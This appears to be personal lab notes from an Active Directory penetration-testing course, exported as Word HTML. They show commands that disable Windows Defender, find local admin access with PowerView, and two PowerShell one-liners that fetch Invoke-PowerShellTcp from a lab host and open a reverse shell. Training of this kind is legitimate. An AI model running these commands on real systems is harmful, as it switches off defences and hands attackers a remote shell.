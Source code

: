 <p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>As we have <span
class=SpellE>localAdmin</span> privileges we can disable windows defender <o:p></o:p></span></p>

<p class=MsoNormal><b><span lang=EN-IN style='mso-ansi-language:EN-IN'>Issue</span></b><span
lang=EN-IN style='mso-ansi-language:EN-IN'>: anti-virus of payload (unzip it
again refresh) second problem is that firewall incoming connection so let's it
off.<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>Set-<span
class=SpellE>MpPreference</span> -<span class=SpellE>DisableRealtimeMonitoring</span>
$true (OR) Set-<span class=SpellE>MpPreference</span> -<span class=SpellE>DisableIOAVProtection</span>
$true<o:p></o:p></span></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>2. PS
C:\AD\Tools<span class=GramE>&gt; .</span> .\PowerView.ps1<span
style='mso-spacerun:yes'>   </span>--<span class=GramE>&gt;<span
style='mso-spacerun:yes'>  </span>where</span> <span class=SpellE>studentx</span>
has local administrative access.<span style='mso-spacerun:yes'> 
</span>(Find-PSRemotingLocalAdminAccess.ps1 script)<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>PS
C:\AD\Tools&gt; Find-<span class=SpellE>LocalAdminAccess</span><o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>dcorp-<span
class=GramE>stud157.dollarcorp.moneycorp</span>.local<o:p></o:p></span></p>

<p class=MsoNormal><span class=SpellE><span lang=EN-IN style='mso-ansi-language:
EN-IN'>dcorp-<span class=GramE>adminsrv.dollarcorp</span>.moneycorp.local</span></span><span
lang=EN-IN style='mso-ansi-language:EN-IN'><o:p></o:p></span></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>3.<span
style='mso-spacerun:yes'>  </span>make sure that <span class=GramE>have to</span>
disabled firewall incoming connection (Reverse connective or any shell for an
access_<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>powershell.exe
<span class=SpellE>iex</span> (<span class=SpellE>iwr</span> <a
href="http://172.16.100.157/Invoke-PowerShellTcp.ps1">http://172.16.100.157/Invoke-PowerShellTcp.ps1</a></span><span
style='mso-ansi-language:EN-IN'> <span lang=EN-IN>-<span class=SpellE>UseBasicParsing</span><span
class=GramE>);Invoke</span>-<span class=SpellE>PowerShellTcp</span> -Reverse -<span
class=SpellE>IPAddress</span> 172.16.100.157 -Port 443<o:p></o:p></span></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>or<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>powershell.exe
-c <span class=SpellE>iex</span> ((New-Object Net.WebClient<span class=GramE>).DownloadString</span>('http://172.16.100.157/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp
-Reverse -<span class=SpellE>IPAddress</span> 172.16.100.157 -Port 443<o:p></o:p></span></p>
